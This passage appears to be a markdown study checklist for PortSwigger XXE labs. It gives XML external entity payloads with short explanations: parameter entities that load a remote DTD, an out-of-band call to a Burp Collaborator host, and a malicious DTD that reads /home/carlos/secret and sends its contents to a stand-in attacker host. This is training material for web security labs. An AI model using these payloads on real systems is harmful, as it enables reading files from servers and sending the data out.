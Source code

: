     **Exploit**

    ```jsx
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
*   [ ] [**Blind XXE with out-of-band interaction via XML parameter entities**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

    **Exploit**

    ```xml
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
    ```
*   [ ] [**Exploiting blind XXE to retrieve data via error messages**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) **\[ DTD Blind Out-of-band ]**

    > On the exploit server change the hosted file name to /exploit.dtd as the exploit file with Document Type Definition (DTD) extension, containing the following payload. The % is the Unicode hex character code for percent sign %. Parameter entities are referenced using the percent character instead of the usual ampersand.

    ```xml
    <!ENTITY % file SYSTEM "file:///home/carlos/secret">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
    %eval;
    %exfil;
    ```

    > Modify the file upload XML body of the request before sending to the target server.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
    <users>
        <user>
            <username>Carl Toyota</username>
            <email>carlos@hacked.net</email>
        </user>    
    </users>
    ```
*   [ ] [**Exploiting XInclude to retrieve files**](https://portswigger.net/web-security/xxe/lab-xinclude-attack)

    > File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.

    **Identify XML**

    > Possible to find XXE attack surface in requests that do not contain any XML.

    > To Identify XXE in not so obvious parameters or requests, require adding the below and URL encode the & ampersand symbol to see the response.

    `%26entity;`

    > Below the server respond with **indication that XML Entities are not allowed for security reasons.**
